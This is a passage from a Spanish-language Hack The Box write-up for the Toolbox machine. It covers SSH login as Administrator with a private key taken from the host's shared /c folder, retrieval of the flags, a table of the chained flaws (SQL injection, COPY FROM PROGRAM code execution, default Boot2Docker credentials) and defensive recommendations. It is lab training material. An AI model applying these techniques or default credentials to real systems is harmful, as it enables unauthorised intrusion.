> 💡 Esto es la vulnerabilidad central de la máquina: la carpeta compartida `/c` rompe por completo el límite de confianza entre el host Windows y la VM Boot2Docker. Cualquier fichero sensible del host — claves SSH, credenciales guardadas, documentos — queda accesible desde dentro de un contenedor Docker comprometido, sin necesidad de escalar privilegios de ningún tipo dentro de Windows.

Antes de usar la clave, comprobamos las rutas de red disponibles desde la VM Boot2Docker:

```bash
route -n
```



```text
Destination     Gateway      Iface
0.0.0.0         10.0.2.2     eth0    (NAT)
172.17.0.0      0.0.0.0      docker0
192.168.99.0    0.0.0.0      eth1    (host-only)
```

No hace falta seguir pivotando por ninguna de estas redes internas: ya tenemos la clave privada de Administrator, y la IP real de la máquina (`10.129.29.169`, la misma que escaneamos al principio) es directamente alcanzable desde nuestra propia máquina atacante.

Copiamos la clave a nuestro equipo y ajustamos permisos:

```bash
vim id_rsa
chmod 600 id_rsa
```



Y nos autenticamos directamente contra la IP objetivo original:

```bash
ssh -i id_rsa Administrator@10.129.29.169
```


```text
Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@TOOLBOX C:\Users\Administrator>whoami
toolbox\administrator
```



✅ Compromiso total de la máquina: acceso directo como **`toolbox\administrator`**, sin necesidad de ninguna técnica adicional de escalada de privilegios en Windows — la clave robada ya pertenece al usuario con más privilegios del sistema.

---

## 5. Post-explotación y flags

### Flag de usuario

La flag de usuario reside en el escritorio del usuario cuya cuenta comprometimos primero en el host Windows (o en el propio perfil de Administrator, dado que el acceso inicial por SSH ya llega con privilegios administrativos):

```powershell
type C:\Users\Administrator\Desktop\user.txt
```

### Flag de root (Administrator)

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina encadena una inyección SQL clásica con un fallo de aislamiento propio de una tecnología de virtualización heredada (Docker Toolbox), demostrando que la superficie de ataque de un servidor no termina en su propio sistema operativo.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Mensajes de error de PostgreSQL no controlados | `config_psql.php` / formulario de login | Revela el motor de base de datos y la query SQL completa |
| **SQL Injection** en el campo `username` (stacked queries) | Formulario de login de `admin.megalogistic.com` | Permite ejecutar sentencias SQL arbitrarias |
| Rol de base de datos con privilegios de superusuario | Conexión PostgreSQL de la app web | `COPY ... FROM PROGRAM` habilita RCE directa desde SQL |
| Credenciales por defecto de Boot2Docker sin cambiar | VM Boot2Docker (Docker Toolbox), IP `172.17.0.1` | Acceso completo a la VM que gestiona los contenedores Docker |
| Carpeta compartida `/c` sin restricción de acceso | VirtualBox Guest Additions (Docker Toolbox) | Expone el disco `C:\` completo del host Windows, incluidas claves SSH de Administrator |
| Clave privada SSH de Administrator en texto plano y accesible | `C:\Users\Administrator\.ssh\id_rsa` | Compromiso total del host Windows sin escalada adicional |

---

## Recomendaciones defensivas

- Desactivar `display_errors` en PHP en producción y capturar las excepciones de conexión a base de datos en vez de imprimirlas al usuario.
- Usar siempre consultas parametrizadas (prepared statements) en vez de concatenar entradas de usuario directamente en SQL, especialmente en PostgreSQL donde las stacked queries están habilitadas por defecto en la mayoría de drivers.
- Conectar las aplicaciones web a la base de datos con un rol de **mínimo privilegio**, nunca como superusuario (`postgres`) — sin superusuario, `COPY ... FROM PROGRAM` no es explotable.
- Migrar de **Docker Toolbox** (obsoleto) a Docker Desktop con WSL2/Hyper-V, que no depende de carpetas compartidas de VirtualBox con permisos tan laxos.
- Si Docker Toolbox es imprescindible, cambiar las credenciales por defecto de la VM Boot2Docker (`docker:tcuser`) y restringir qué carpetas del host se comparten con la VM.
- Nunca dejar claves privadas SSH (u otro material sensible) en rutas accesibles desde carpetas compartidas entre host y máquinas virtuales/contenedores.
- Segmentar la red para que los contenedores que exponen servicios a Internet no puedan alcanzar directamente la interfaz de gestión de Docker (`172.17.0.1`) ni otras redes internas del host.
- Auditar periódicamente qué servicios quedan expuestos por FTP/SMB anónimos — el propio instalador `docker-toolbox.exe` filtrado por FTP fue la primera pista de toda la cadena.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
